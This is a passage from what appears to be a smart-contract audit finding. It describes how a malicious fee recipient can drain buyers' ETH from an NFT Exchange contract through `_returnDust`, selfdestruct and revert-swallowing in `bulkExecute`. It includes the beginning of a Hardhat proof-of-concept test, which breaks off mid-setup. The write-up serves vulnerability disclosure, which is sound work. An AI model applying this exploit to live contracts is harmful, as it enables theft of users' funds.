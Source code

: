 `_returnDust`:
https://github.com/code-423n4/2022-11-non-fungible/blob/323b7cbf607425dd81da96c0777c8b12e800305d/contracts/Exchange.sol#L212
```
    function _returnDust() private {
        uint256 _remainingETH = remainingETH;
        assembly {
            if gt(_remainingETH, 0) {
                let callStatus := call(
                    gas(),
                    caller(),
                    selfbalance(),
                    0,
                    0,
                    0,
                    0
                )
            }
        }
    }
```

After the fee recipient drains the rest of the 4 ETH funds of the Exchange contract (the buyers funds). They need to transfer a portion back (0.9 ETH) to the Exchange contract in order for the `_executeFundsTransfer` to not revert and be able to send funds (0.9 ETH) to the seller. This can be done using the `selfdestruct` opcode

After that, the `_execute` function will continue and exit normally.
`bulkExecute` will continue to the next order and call `_execute` which will revert. 
Because `bulkExecute` delegatecalls `_execute` and continues even after revert, the function `bulkExecute` will complete its execution without any errors and all the buyers ETH funds will be lost and nothing will be refunded.

### Hardhat POC: 
add the following test to `execution.test.ts`:
```
describe.only('hack', async () => {
      let executions: any[];
      let value: BigNumber;
      beforeEach(async () => {
        await updateBalances();
        const _executions = [];
        value = BigNumber.from(0);
        // deploy MockFeeReceipient
        let contractFactory = await (hre as any).ethers.getContractFactory(
          "MockFeeReceipient",
          {},
        );
        let contractMockFeeReceipient = await contractFactory.deploy(alice.address,price);
        await contractMockFeeReceipient.deployed();
        //generate alice and bob orders. alice fee recipient is MockFeeReceipient. 10% cut
        tokenId += 1;
        await mockERC721.mint(alice.address, tokenId);
        sell = generateOrder(alice, {
          side: Side.Sell,
          tokenId,
          paymentToken: ZERO_ADDRESS,
          fees: [ 
            {
              rate: 1000,
              recipient: contractMockFeeReceipient.address,
            }
          ],
        });
        buy = generateOrder(bob, { 
```